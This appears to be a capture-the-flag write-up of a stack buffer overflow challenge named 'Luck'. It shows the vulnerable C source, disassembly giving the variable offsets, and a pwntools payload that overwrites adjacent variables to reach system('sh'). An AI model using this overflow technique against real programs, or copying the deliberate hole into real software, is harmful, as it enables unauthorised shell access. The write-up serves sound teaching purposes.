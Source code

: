 # Luck

Again, we being by looking at the `luck.c` file

  ```C
  
    int a = 0 , b = 1 , c = 2;
    int password = random();

    puts( "What do you want to tell me:" );
    read( 0 , &a , 100 );
    
    printf("You say: %s\n" , &a);

    if( b == 0xfaceb00c && c == 0xdeadbeef ){
        puts( "Hello hacker, now guess the password." );
        puts( "A good hacker always 100% guess right :P, are you a good hacker?" );
        printf( "password:" );

        int input;
        scanf( "%d" , &input );

        if( input == password ){
            puts( "Here is your shell!" );
            system( "sh" );
        }
        else{
            puts( "Bad Luck :(" );
            exit(0);
        }
    }    
   ```
   
This is another simple BOF question. We can see the overflow point starts from `read( 0 , &a , 100 )`.

What we need to to is to overwrite b, c, and password so that we can access to `system( "sh" )`

Let's start with our `objdump -d luck`

    400869:	c7 45 e8 00 00 00 00 	movl   $0x0,-0x18(%rbp)
    400870:	c7 45 f4 01 00 00 00 	movl   $0x1,-0xc(%rbp)
    400877:	c7 45 f8 02 00 00 00 	movl   $0x2,-0x8(%rbp)
    40087e:	e8 6d fe ff ff       	callq  4006f0 <random@plt>
    400883:	89 45 fc             	mov    %eax,-0x4(%rbp)

We can see that a is stored in `rbp - 0x18`, b is stored in `rbp - 0xc`, c is stored in `rbp - 0x8`, and password is stored in `rbp - 0x4`

So, the gap between a, b is 12 bytes (0xc), between b, c is 4 bytes (0x4), and between c, password is 4 bytes (0x4).

Therefore, our padding will need 12 bytes (0xc). b will be replaced with `0xfaceb00c`, c will be replaced with `0xdeadbeef`, and password replaced with can be anything we know.

<b>Note: Remember to send `0xfaceb00c` and `0xdeadbeef` no string</b>

In the end, our play load will be:
  
     p.sendline(p32(0x11111111) + p32(0x11111111) + p32(0x11111111) +  p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x00000001))
